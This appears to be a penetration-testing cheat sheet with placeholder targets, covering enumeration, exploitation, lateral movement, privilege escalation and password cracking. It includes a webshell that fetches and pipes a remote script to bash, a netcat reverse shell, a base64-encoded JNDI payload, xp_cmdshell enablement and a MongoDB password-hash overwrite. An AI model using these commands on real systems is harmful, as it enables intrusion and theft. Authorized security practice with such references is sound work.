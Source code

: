 # Penetration Testing

Overview
---------
1. - [Enumeration](#1---enumeration)
2. - [Exploitation](#2---exploitation)
3. - [Lateral Movement](#3---lateral-movement)
4. - [Privilege Escalation](#4---privilege-escalation)
5. - [Brute Force](#5---brute-force)
6. - [Online Resources](#6---online-resources)
7. - [Browser Plugins](#7---browser-plugins)
     
#1. - Enumeration
-----------------------------------------

- Nmap

```
$ nmap -sC -sV -p- -Pn -A <IP address>
$ nmap -sC -sV -p- -Pn -A -sU <IP address>
$ nmap --top-ports=100 <IP address>
$ nmap <IP address> --script vuln
```

- FTP (port 21)

```
$ ftp <IP address> (anonymous:anonymous)
ftp> dir
ftp> get <file>
ftp> put <file>
```

- Telnet (port 23)

```
$ telnet <IP address>
```

- TFTP (udp/port 69)

```
$ tftp <IP address>
tftp> get <file>
tftp> put <file>
```

- Gobuster (port 80)

```
$ gobuster dir -w <wordlist> -u <URL>
$ gobuster dir -w <wordlist> -u <URL> -x php,html
$ gobuster vhost -w <wordlist> -u <URL>
```

- Smbclient (port 445)

```
$ smbclient -L <IP address>
$ smbclient -L <IP address> -U <username>
$ smbclient \\\\<IP address>\\c$
$ smbclient \\\\<IP address>\\c$ -U <username>
```

- Rsync (port 873)

```
$ rsync --list-only <IP address>::
$ rsync --list-only <IP address>::<share>
$ rsync <IP address>::<share>/<filename> <filename>
```

- MSSQL (port 1433)

```
$ python3 mssqlclient.py <domain>/<username>@<IP address> -windows-auth
SQL> SELECT is_srvrolemember('sysadmin');
SQL> EXEC sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
SQL> EXEC xp_cmdshell "whoami";
```

- MySQL (port 3306)

```
$ mysql -h <IP address> -u root
MariaDB [(none)]> SHOW databases;
MariaDB [(none)]> USE <database name>;
MariaDB [(none)]> SHOW tables;
MariaDB [(none)]> SELECT * FROM <table name>;
```

- Xfreerdp (port 3389)

```
$ xfreerdp /v:<IP address>
$ xfreerdp /v:<IP address> /u:Administrator
$ freerdp /v:<IP address> /cert:ignore /u:Administrator
```

- PostgreSQL (port 5432)

```
$ psql -h <IP address> -U <username> -p <password>
<username>=# \l
<username>=# \c secrets
<username>=# \dt
<username>=# SELECT * FROM <table>;
```

- Redis-cli (port 6379)

```
$ redis-cli -h <IP address>
<IP address>:6379> select <db number e.g. 0>
<IP address>:6379> keys *
<IP address>:6379> get <key>
```

- MongoDB (port 27017/27117)

```
$ ./mongo mongodb://<IP address>:27017
> show dbs;
> use <db name>;
> show collections;
> db.<collection>.find().pretty();
$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("<Object ID>")},{$set:{"x_shadow":"<SHA-512 hash>"}})'
```

#2. - Exploitation
-----------------------------------------

- Local File Inclusion (LFI)

```
http://<domain name>/<page>?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

- Remote File Inclusion (RFI)

```
sudo responder -I <network interface>
http://<domain name>/<page>?page=//<IP address>/somefile
```

- Server Side Template Injection (SSTI)

```
${7*7}
```

- Webshell

```
http://<domain name>/shell.php?cmd=id
http://<domain name>/shell.php?cmd=curl%20<IP address>:8000/shell.sh|bash
```

- Netcat

```
$ nc -nlvp <port>
$ nc -nv <IP address> <port> -e cmd.exe
```

- Host Files

```
$ python3 -m http.server 8000
```

- Shell Escapes

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'; CTRL+Z; stty raw -echo; fg; export TERM=XTERM
$ script /dev/null -c bash
```

- Sqlmap

```
$ sqlmap -u '<URL>' --cookie="PHPSESSID=<PHPSESSID>"
$ sqlmap -u '<URL>' --cookie="PHPSESSID=<PHPSESSID>" --os-shell
```

- Rogue-JNDI

```
$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,<base64 payload>} | {base64,-d}|{bash,-i}" --hostname "<IP address>"
```

#3. - Lateral Movement
-----------------------------------------

- Evil-winrm

```
$ evil-winrm -i <IP address> -u <username> -p <password>
```

- Local Port Forwarding

```
$ ssh -L 1234:localhost:5432 <username>@<remote IP address>
```

- Dynamic Port Forwarding

```
$ ssh -D 1234 <username>@<remote IP address>
```

- Proxychains

```
Edit /etc/proxychains4.conf
$ proxychains <command>
```

- PsExec

```
$ python psexec.py <username>:<password>@<IP address>
$ python psexec.py <username>@<IP address>
```

#4. - Privilege Escalation
-----------------------------------------

- WinPEAS

```
C:\> .\winPEASx64.exe
```

- LinPEAS

```
$ .\linpeas.sh
```

#5. - Brute Force
-----------------------------------------

- HashID

```
$ hashid <hash>
```

- John The Ripper

```
$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
$ john --show hashes.txt
```

- Hydra

```
$ hydra -L <usernames.txt> -p '<password>' <IP address> ssh
```

- Zip2john

```
$ zip2john <ZIP file> > hashes.txt
```

- Hashcat

```
$ hashcat -a 0 -m 0 hashes.txt <wordlist>
```

#6. - Online Resources
-----------------------------------------

- Speedguide

```
https://www.speedguide.net/port.php?port=3389
```

- CrackStation

```
https://crackstation.net/
```

#7. - Browser Plugins
-----------------------------------------

- Wappalyzer: Website technology analyser

```
https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/
```

- Cookie Editor: edit cookies

```
https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/
```

- FoxyProxy: proxy management

```
https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/
```
